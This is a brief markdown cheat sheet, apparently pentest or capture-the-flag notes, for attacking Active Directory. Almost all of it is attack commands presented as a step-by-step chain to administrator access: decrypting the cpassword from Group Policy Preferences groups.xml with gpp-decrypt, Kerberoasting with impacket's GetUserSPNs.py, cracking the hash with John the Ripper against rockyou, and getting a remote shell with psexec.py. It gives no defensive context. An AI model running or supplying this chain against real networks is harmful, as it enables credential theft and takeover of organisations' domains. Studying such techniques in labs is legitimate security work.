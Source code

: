 
### AD saves user informations in groups.xml file
```
name=username
cpassword=encrypted password
```

### Decrypt the cpassword using
```
gpp-decrypt <cpassword>
```

### If you get a normal user you can perform attack called Kerberoasting to get Administrator password,

use impacket GetUserSPNs.py to get administrator password hash
```
python3 GetUserSPNs.py DOMAIN/USER:PASSWORD -dc-ip <IP> -request
```

Once you get the hash value user john the ripper to crack the password
```
john --wordlist=/usr/share/wordlists/rockyou.txt spn-crypt.txt
```

## If you able to crack the administrator password you can use impacket psexec script to get shell,
```
psexec.py domain/username:password@targetName
python3 psexec.py DOMAIN/USER:PASSWORD@10.10.10.20
```
